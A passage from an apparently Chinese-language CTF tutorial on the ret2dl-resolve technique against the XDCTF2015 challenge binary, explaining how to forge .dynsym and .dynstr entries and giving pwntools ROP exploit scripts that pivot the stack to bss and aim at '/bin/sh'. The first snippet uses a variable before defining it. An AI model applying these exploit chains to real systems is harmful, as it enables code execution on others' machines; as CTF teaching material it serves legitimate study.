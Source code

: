 ```python
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr#获得.dynsym的地址
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) #地址对齐 #得到write的dynsym索引号
fake_sym_addr = align + base_stage + 32 #假的构造的dynsym的地址
index_dynsym = (fake_sym_addr - dynsym) / 0x10  #得到write的dynsym索引号
fake_write_sym = flat([0x4c, 0, 0, 0x12])# 这就是fake_dynsym，0x4c就是name_offset
index_offset = base_stage + 24 - rel_plt#计算fake_reloc偏移
write_got = elf.got['write']#计算r_offse
r_info = (index_dynsym << 8) | 0x7#计算 r_info 
fake_write_reloc = flat([write_got, r_info])#和p32(write_got)+p32(r_info)一样
rop.raw(plt0)
rop.raw(index_offset)#会跳转到我们的 fake_reloc
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))#调用write写入bin/sh
rop.raw(fake_write_reloc)  #Elf32_Rel写入bss段
rop.raw('a' * align)  
rop.raw(fake_write_sym)  #将fake_dynsym写入bss段，找name_offset用到
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))#填充到100字符
r.sendline(rop.chain())#第2段rop
r.interactive()

```

成功打印 bin/sh 就是执行成功了

### 2.2.4 .dynstr

我们知道.dynstr+name_offset=std_name，name_offset在上节已经由我们控制，只要接下来伪造.dynstr，就可以控制std_name（函数名），让dlresolve去寻找我们想要执行的函数

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d24.png)

以利用write函数为例，构造write函数的字符串“write\x00”（.dynstr中每一段字符串都以\x00结尾）。将所需字符写入bss段，那应该写入什么地址呢？我们知道.dynstr+name_offset=st_name，即name_offset = st_name - .dynstr。将write\x00写入栈：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d25.png?x-oss-process=style/watermark)

根据栈结构，st_name地址(write\x00)距离name_offset（fake_ dynsym）有0x10的距离。

 name_offset = align+ base_stage + 48 - .dynstr = fake_dynsym_addr + 0x10 – dynstr.

exp4:

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')
offset = 112
bss_addr = elf.bss()
r.recvuntil('Welcome to XDCTF2015~!\n')
stack_size = 0x800 #普遍是这个地址
base_stage = bss_addr + stack_size 
rop.raw('a' * offset)#在ROP链中填充offset个a
rop.read(0, base_stage, 100)#相当于call read，读取100个字节到base_stage，即第2段rop
rop.migrate(base_stage)#会将程序流程又转到base_stage
r.sendline(rop.chain()) #第一段栈迁移
rop = ROP('./main')
sh = "/bin/sh"
plt0 = elf.get_section_by_name('.plt').header.sh_addr #获得plt0的地址
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr#获得.rel.plt的地址
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr#获得.dynsym的地址
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr #获取.dynstr地址
```